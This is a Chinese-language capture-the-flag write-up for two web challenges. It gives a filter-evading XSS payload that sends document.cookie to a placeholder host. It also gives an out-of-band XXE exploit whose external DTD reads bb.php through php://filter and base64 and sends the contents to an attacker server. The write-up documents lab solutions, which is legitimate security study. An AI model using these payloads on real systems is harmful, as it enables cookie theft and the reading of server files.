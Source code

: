 ### 200pt

提交参数输出到onerror事件中,用js做了过滤,不能出现关键字,不能有“+”。 基础payload为

```
￼window['location']="http://xxx/"+document['cookie']

```

想到用字符拼接绕过关键字过滤,用

```
￼'coo'['CONCAT'.toLowerCase()]('kie')

```

这种方式绕过“+”,最终payload为

```
"><window['loca'['CONCAT'.toLowerCase()]('tion')]='http://xxx/'['CONCAT'.toLowerCase()](document['coo'['CONCAT'.toLowerCase()]('kie')]);>

```

url编码后提交得到flag。

### 300pt

根据题面猜测是XML实体注入。先找了一些中文网站的payload试了一下,发觉都不行,感觉主要原因是因为没有回显(结合题面的吐槽进一步确定 了)。于是开始Google。发现了这篇paper:[https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)。

pdf里讲得很详细,有exploit可用。 网页上填写内容为: ￼￼￼

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ourserver_ip/xdb.xml">
    %remote;
    %param1; 
]>
<root>&external;</root>

```

￼xdb.xml的内容为:

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=bb.php"> 
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://ourserver_ip/log.php?msg=%payload;'>">

```

要注意的地方是,这里不能直接用file协议取bb.php的内容,因为绝对路径不确定感觉。所以采用php://filter以及base64-encode的trick。最后读到的msg 再base64_decode一下就出来flag了。

### 400pt
